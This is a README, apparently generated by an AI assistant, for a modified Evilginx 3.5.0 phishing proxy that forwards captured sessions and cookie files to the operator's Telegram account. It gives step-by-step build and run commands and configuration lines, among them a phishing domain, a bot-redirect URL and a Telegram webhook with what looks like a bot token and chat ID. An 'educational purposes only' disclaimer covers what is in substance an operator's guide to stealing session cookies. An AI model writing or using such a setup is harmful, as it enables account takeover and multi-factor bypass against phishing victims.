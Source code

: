 ```markdown
# Evilginx 3.5.0 - Modified By Itwizardo

This is a modified version of Evilginx 3.5.0 that includes functionality to send sessions to your Telegram account, including the cookies file, it also has the new Gophish intergration and bug fixes.
```
## Ubuntu Installation

To install Evilginx 3.5.0 - Modified By Itwizardo on Ubuntu, follow these steps:

1. Clone the repository:

```bash
git clone https://github.com/itwizardo/evilginx2telegram.git
```

2. Navigate to the cloned directory:

```bash
cd evilginx2telegram
```

3. Install dependencies:

```bash
go get
```

4. Build the project:

```bash
go build
```

5. Make the executable:

```bash
make
```

6. Navigate to the build directory:

```bash
cd build
```

7. Set permissions for the Evilginx executable:

```bash
chmod +rwx evilginx
```

8. Run Evilginx:

```bash
./evilginx -p ../phishlets/
```

## Configuration Setup

Before using Evilginx, you need to set up your configuration. Follow these steps:

1. Set the domain:

```
config domain something.com
```

2. Set the external server IP:

```
config ipv4 external serverip
```

3. Set the server IP to bind to:

```
config ipv4 bind serverip
```

4. Set the unauthenticated URL:

```
config unauth_url https://bots.here.redirected.com/
```

5. Set autocert to on or off:

```
config autocert on/off
```

6. Set up the Telegram webhook:

```
config webhook_telegram 7192062302:AAGvU9P57FF37gz-ZRUuonESXwvStiQV58O/15604540690
```

Replace `7192062302:AAGvU9P57FF37gz-ZRUuonESXwvStiQV58O` with your Telegram token.
Replace `15604540690` with your Chat id.

## Telegram Guide

Here's a guide on how to set up Telegram for Evilginx:

### How to Get Chat ID

1. Go to Telegram and search for `@raw_data_bot`.
2. Start a conversation with the bot.
3. The bot should provide you with your chat ID.

### How to Get Token

1. Go to Telegram and search for `@BotFather`.
2. Start a conversation with the bot by sending `/start`.
3. Follow the instructions to create a new bot and get your Telegram token.

**For Educational Purposes Only:**

Evilginx 3.5.0 - Modified By Itwizardo is intended for educational purposes only. Any use of this tool for malicious or illegal activities is strictly prohibited. The developers and contributors are not responsible for any misuse of this tool.

```

Feel free to modify this README as needed for your repository! Let me know if you need further assistance.
```
